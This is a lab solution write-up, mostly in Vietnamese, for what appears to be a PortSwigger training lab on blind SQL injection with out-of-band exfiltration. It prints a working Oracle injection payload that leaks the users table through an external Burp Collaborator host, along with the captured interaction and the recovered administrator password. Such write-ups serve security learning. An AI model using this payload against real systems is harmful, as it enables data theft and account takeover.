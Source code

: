 # **Lab: Blind SQL injection with out-of-band data exfiltration**

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.  
> The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.  
> The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the `password` of the `administrator` user.  
> To solve the lab, log in as the `administrator` user.

# **Solution**

Ta có TrackingId:

```
Cookie: TrackingId=Bo6LKXhFAxjk38CV; session=bdxAJPSjpSha3vOAR8iDiiEKZEyG87E1
```

Khởi động `Burp Collaborator` và lấy `Burp Collaborator Subdomain`:

```
q5wdv9vkwin1c5l1gka72vj3augl4bs0.oastify.com
```

Có các mẫu để tấn công out of-band-data exfiltration:  
![alt text](image.png)

Sửa lại query cho đúng:

```
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT username FROM users WHERE ROWNUM=1)||'.q5wdv9vkwin1c5l1gka72vj3augl4bs0.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

Encode:
![alt text](image-1.png)

Sau khi gửi request, quay lại trang `Collaborator`. Nếu không thấy tương tác nào được ghi thì bấm `Poll now`.  
Thấy thu được 5 tương tác, chọn tương tác có type HTTP và kiểm tra phần request:  
![alt text](image-2.png)

```
GET / HTTP/1.0
Host: administrator.q5wdv9vkwin1c5l1gka72vj3augl4bs0.oastify.com
Content-Type: text/plain; charset=utf-8
```

Ở phần `Host`, thu được `username` nằm ở `ROWNUM=1` là `administrator`.

Vậy là thành công lấy được `username`, thực hiện tương tự để lấy `password`:

![alt text](image-3.png)  
![alt text](image-4.png)

```
socj4hd78ry2udodi9qs
```

Login and Done~~
